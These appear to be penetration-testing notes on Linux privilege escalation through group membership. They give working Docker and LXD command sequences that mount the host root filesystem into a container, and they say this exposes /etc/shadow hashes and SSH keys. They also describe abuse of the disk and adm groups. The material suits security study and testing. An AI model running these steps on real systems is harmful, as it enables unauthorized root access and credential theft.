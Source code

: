 **Common Privileged Groups**

- **docker**: Members can mount host filesystem via Docker daemon.
- **disk**: Can mount and read disk devices.
- **lxd** / **lxc**: Can spawn or modify containers and potentially escape.
- **lpadmin**, **www-data**, **adm**: Depending on context, may allow log reading or injection

**Docker group**
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
unzip alpine image
```bash
unzip alpine.zip
```
Choose defaults for all prompts - help:
[How to Set Up and Use LXD on Ubuntu 16.04 | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04)
```bash
lxd init
```
Import the image
```bash
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```
set privilege flag
```bash
lxc init alpine r00t -c security.privileged=true
```
Mount file system
```bash
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```
```bash
lxc start r00t
lxc exec r00t /bin/sh
```
on the host type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root

**Disk**

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfsto` access the entire file system with root level privileges.

**ADM**

Members of the adm group are able to read all logs stored in `/var/log`. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.